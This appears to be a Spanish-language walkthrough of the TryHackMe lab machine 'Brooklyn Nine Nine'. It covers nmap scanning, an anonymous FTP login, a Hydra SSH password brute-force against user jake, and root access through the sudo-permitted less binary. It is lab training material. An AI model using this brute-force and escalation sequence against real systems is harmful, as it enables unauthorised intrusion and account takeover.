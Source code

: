 Maquinas que vamos a utilizar **Kali Linux y Brooklyn Nine Nine** [https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)

  

```Bash
ping -c 1 10.10.196.44
```

![[Imagenes/image 56.png|image 56.png]]

  

```Bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.10.196.44
```

![[Imagenes/image 1 45.png|image 1 45.png]]

  

- Vamos a ver lo que esta corriendo por el puerto 80 a través del navegador web.
    
    ![[Imagenes/image 2 44.png|image 2 44.png]]
    
    No parece que haya nada interesante aqui.
    
      
    
- Vamos a probar el login FTP como **anonymous.**
    
    ```Bash
    ftp 10.10.196.44
    ```
    
    ![[Imagenes/image 3 43.png|image 3 43.png]]
    
    - Hacemos un listado de archivos
        
        `ls`
        
        ![[Imagenes/image 4 41.png|image 4 41.png]]
        
        Nos encontramos un archivo note_to_jake.txt , que vamos a intentar bajárnoslo a nuestro ordenador utilizando el comando **get**.
        
        `get note_to_jake.txt`
        
        ![[Imagenes/image 5 40.png|image 5 40.png]]
        
        `exit`
        
    
      
    
- Verificamos la descarga del archivo.
    
    ```Bash
    ls
    ```
    
    ![[Imagenes/image 6 38.png|image 6 38.png]]
    

  

- Miramos su contenido
    
    ```Bash
     cat note_to_jake.txt 
    ```
    
    ![[Imagenes/image 7 36.png|image 7 36.png]]
    
    Hemos conseguido el nombre de un usuario.
    
      
    

> [!important] Recapitulemos la maquina victima tiene **abierto** el puerto **21 FTP** y el puerto **22 SSH**. Tenemos un **nombre de usuario Jake** por tanto podemos hacer una **ataque de fuerza bruta con Hydra**.

  

- Atacamos el puerto SSH
    
    ```Bash
    hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.196.44
    ```
    
    ![[Imagenes/image 8 34.png|image 8 34.png]]
    
      
    
- Lo probamos
    
    ```Bash
    ssh jake@10.10.196.44
    ```
    
    ![[Imagenes/image 9 31.png|image 9 31.png]]
    
    Ya estamos dentro.
    
      
    
    ---
    
      
    
- Ahora vamos a intentar escalar privilegios mediante **sudo -l**.
    
    `sudo -l`
    
    ![[Imagenes/image 10 27.png|image 10 27.png]]
    
    Vemos que **podemos ejecutar** el binario **less** con sudo.
    
      
    
- Nos vamos a la web [https://gtfobins.github.io/](https://gtfobins.github.io/). Y **buscamos** el binario **less con sudo.**
    
    ![[Imagenes/image 11 21.png|image 11 21.png]]
    
    ![[Imagenes/image 12 21.png|image 12 21.png]]
    

  

- Ejecutamos los comandos. NOTA: no olvidar poner la ruta absoluta para evitar errores.
    
    `sudo less /etc/profile`  
      
    
    ![[Imagenes/image 13 20.png|image 13 20.png]]
    
    ![[Imagenes/image 14 18.png|image 14 18.png]]
    

`!/bin/sh` y pulsamos la tecla Enter

![[Imagenes/image 15 15.png|image 15 15.png]]

`whoami`

![[Imagenes/image 16 12.png|image 16 12.png]]